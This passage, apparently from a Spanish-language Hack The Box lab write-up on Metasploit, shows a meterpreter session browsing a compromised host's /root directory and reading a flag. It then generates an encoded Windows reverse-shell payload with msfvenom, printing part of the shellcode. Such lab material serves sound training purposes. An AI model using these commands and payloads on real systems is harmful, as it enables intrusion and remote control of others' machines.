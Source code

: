 ```bash
100644/rw-r--r--  8228   fil   2020-03-31 03:54:43 +0200  README
040755/rwxr-xr-x  4096   dir   2022-05-16 10:45:00 +0200  bin
040755/rwxr-xr-x  4096   dir   2022-05-11 14:49:31 +0200  conf
040755/rwxr-xr-x  4096   dir   2022-05-11 14:49:30 +0200  extensions
040755/rwxr-xr-x  4096   dir   2022-05-11 14:49:30 +0200  hadoop-dependencies
040755/rwxr-xr-x  12288  dir   2022-05-11 14:49:32 +0200  lib
040755/rwxr-xr-x  4096   dir   2020-03-31 03:26:02 +0200  licenses
040755/rwxr-xr-x  4096   dir   2022-05-11 14:49:31 +0200  quickstart
040755/rwxr-xr-x  4096   dir   2022-05-11 15:09:18 +0200  var

meterpreter > cd ..
meterpreter > ls
Listing: /root
==============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100600/rw-------  168   fil   2022-05-16 13:07:41 +0200  .bash_history
100644/rw-r--r--  3137  fil   2022-05-11 15:43:25 +0200  .bashrc
040700/rwx------  4096  dir   2022-05-16 13:04:45 +0200  .cache
040700/rwx------  4096  dir   2022-05-16 12:54:48 +0200  .config
100644/rw-r--r--  161   fil   2019-12-05 15:39:21 +0100  .profile
100644/rw-r--r--  75    fil   2022-05-16 10:45:33 +0200  .selected_editor
040700/rwx------  4096  dir   2021-10-06 19:37:09 +0200  .ssh
100644/rw-r--r--  212   fil   2022-05-11 16:10:43 +0200  .wget-hsts
040755/rwxr-xr-x  4096  dir   2022-05-11 14:51:45 +0200  druid
100755/rwxr-xr-x  95    fil   2022-05-16 12:31:10 +0200  druid.sh
100644/rw-r--r--  22    fil   2022-05-16 12:01:15 +0200  flag.txt
040755/rwxr-xr-x  4096  dir   2021-10-06 19:37:19 +0200  snap

meterpreter > cat flag.txt
HTB{MSF_Expl01t4t10n}
```

## MSF encoders 

Tambíen es posible crear nuestros propios payloads mediante msfvenom.

> Este ejemplo es sin codificar.
{: .prompt-info }
```bash
pr0ff3@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl

Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of perl file: 1674 bytes
my $buf = 
"\xda\xc1\xba\x37\xc7\xcb\x5e\xd9\x74\x24\xf4\x5b\x2b\xc9" .
"\xb1\x59\x83\xeb\xfc\x31\x53\x15\x03\x53\x15\xd5\x32\x37" .
"\xb6\x96\xbd\xc8\x47\xc8\x8c\x1a\x23\x83\xbd\xaa\x27\xc1" .
"\x4d\x42\xd2\x6e\x1f\x40\x2c\x8f\x2b\x1a\x66\x60\x9b\x91" .
"\x50\x4f\x23\x89\xa1\xce\xdf\xd0\xf5\x30\xe1\x1a\x08\x31" .
```
